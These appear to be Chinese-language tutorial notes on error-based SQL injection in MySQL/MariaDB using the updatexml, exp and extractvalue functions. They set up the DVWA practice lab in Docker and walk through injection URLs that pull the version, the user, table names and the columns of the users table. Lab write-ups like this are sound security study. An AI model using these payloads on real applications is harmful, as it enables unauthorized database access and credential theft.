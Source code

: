 

#### 函数 - updatexml 

- 报错注入 payload 原理（ UPDATEXML ） 
  - ?id=2' and updatexml(1,concat(0x7e,(SELECT @@version)),1) -- ' 
- 测试SQL:
  - select updatexml(1,concat(0x7e,(select @@version)),1);
    - 报错，ERROR 1105 (HY000): XPATH syntax error: '~5.6.43'



#### 函数 - exp 

- 报错注入 payload 原理（ exp ） 
  - 注意，exp() 产生错误，但是并没有爆出 database()，但是发现 database() 是表达式，在脚本语言中会转化为相应的值，从而爆出数据库名。 
- 测试SQL:
  - select exp(~(select * from (select database()) x));
    - 报错，ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `x`.`database()` from (select database() AS `database()`) `x`)))'
  - select * from (select database()) x;
  - select ~(select * from (select database()) x);
    - 输出， 18446744073709551615



#### DVWA 容器安装

- 下载：docker pull registry.cn-shanghai.aliyuncs.com/yhskc/dvwa
- 运行：docker run -d -p 0.0.0.0:81:80 registry.cn-shanghai.aliyuncs.com/yhskc/dvwa
  - 容器内端口为80，映射为主机的81端口
- 测试：
  - http://127.0.0.1:81/
  - 用户名：admin
  - 密码：password





#### 报错注入实战

- 安装，并登录靶机
- 选择bug类型：SQL Injection
- 使用 单引号 测试
  - http://127.0.0.1:81/vulnerabilities/sqli/?id='&Submit=Submit#
  - 报错，You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
- 使用 extractvalue 函数 进行报错注入
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,(select @@version))  -- &Submit=Submit#
  - 报错，XPATH syntax error: '.26-MariaDB-0+deb9u1'
- 获取 用户 和 数据库内容
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,concat(0x7e, user(), 0x7e, database()))  -- &Submit=Submit#
  - 报错，XPATH syntax error: '\~app@localhost~dvwa'
- 通过information_schema.tables，获取数据表名称
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,concat(0x7e, (select table_name from information_schema.tables where table_schema='dvwa' limit 0,1)))  -- &Submit=Submit#
  - 通过更改限制，或者用户表 users
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,concat(0x7e, (select table_name from information_schema.tables where table_schema='dvwa' limit 2,1)))  -- &Submit=Submit#
- 通过information_schema.columns，获取用户表字段
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,concat(0x7e, (select column_name from information_schema.columns where table_name='users' limit 0,1)))  -- &Submit=Submit#
  - 通过更改限制，或者用户表 的字段 user 与 password
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,concat(0x7e, (select column_name from information_schema.columns where table_name='users' limit 3,1)))  -- &Submit=Submit#
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,concat(0x7e, (select column_name from information_schema.columns where table_name='users' limit 4,1)))  -- &Submit=Submit#
